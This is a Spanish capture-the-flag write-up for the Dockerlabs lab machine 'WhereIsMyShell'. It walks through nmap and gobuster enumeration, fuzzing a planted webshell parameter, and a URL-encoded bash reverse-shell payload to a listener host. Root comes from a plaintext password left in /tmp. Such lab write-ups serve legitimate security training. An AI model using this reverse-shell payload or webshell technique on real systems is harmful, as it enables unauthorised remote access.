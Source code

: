 # Write-up: 

- **Nombre de la máquina:** `WhereIsMyShell` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
```	
ping 172.17.0.2
```

Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

![](Imagenes/222.png)
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                |
| ------ | -------- | ------------- | ------------------------------------ |
| 80     | http     | Apache 2.4.57 | Iniciaremos por aquí. No hay otro XD |

/
![](Imagenes/223.png)

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Vemos una frase : "==Pista==: "Guardo un secretito en /temp;)"
    ![](Imagenes/224.png)
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	![](Imagenes/225.png)
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `/backup`--> X
	- `/uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
- Lanzamos la herramienta `whatweb` para que nos de información sobre la aplicación web. 
```
whatweb 172.17.0.2
```

![](Imagenes/226.png)

Nada relevante. 


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

![](Imagenes/236.png)
**Hallazgos:**
Vemos  rutas llamativas:
- 172.17.0.2/shell.php: 
  Podemos ver una página en blanco...
	
- 172.17.0.2/warning.html:
	Podemos leer: `Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo... `
![](Imagenes/227.png)

Teniendo como pista que existe un parámetro que no recuerda haremos fuzzing a `shell.php` y encontramos el parámetro :

![](Imagenes/228.png)


Con el que hemos podido ejecutar la consola en `shell.php`
![](Imagenes/229.png)

Si hemos podido ejecutar comandos en una consola, utilizaremos esta brecha para ejecutar una `revershell`



---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Ejecutaremos la revershell en dos pasos sencillos:
1. Levantaremos un puerto de escucha, en nuestro caso el 8888
```
   sudo nc -nvlp 8888
```
   
3. Generaremos un código en https://www.revshells.com/ que abusando de la vulnerabilidad que hemos encontrado`RCE- Ejecución remota de comandos`  nos ejecutara la revershell y tendremos acceso desde nuestra terminal. 
   
```
 http://172.17.0.2/shell.php?parameter=bash%20-c%20%22/bin/bash%20-i%20%3E%26%20/dev/tcp/10.0.0.5/8888%200%3E%261%22
```

![](Imagenes/230.png)


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿A qué grupo pertenezco?
`id`

![](Imagenes/231.png)
¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

![](Imagenes/232.png)



#### Búsqueda del Vector de Escalada:

Si recordamos en la pista encontrada anteriormente nos decían que escondían un secreto en `/tmp`. Lo revisamos:
`/tmp`:

![](Imagenes/233.png)

Encontramos el archivos `.secret.txt` donde encontramos la contraseña de `root`
![](Imagenes/234.png)

**Credenciales obtenidas:**
- **Usuario:** `root`
- **Contraseña:** `contraseñaderoot123`

### 4.2. Explotación y Escalada a Root

Probamos las credenciales encontradas y BINGO🚀 
![](Imagenes/235.png)



SOMOS ROOT🚀


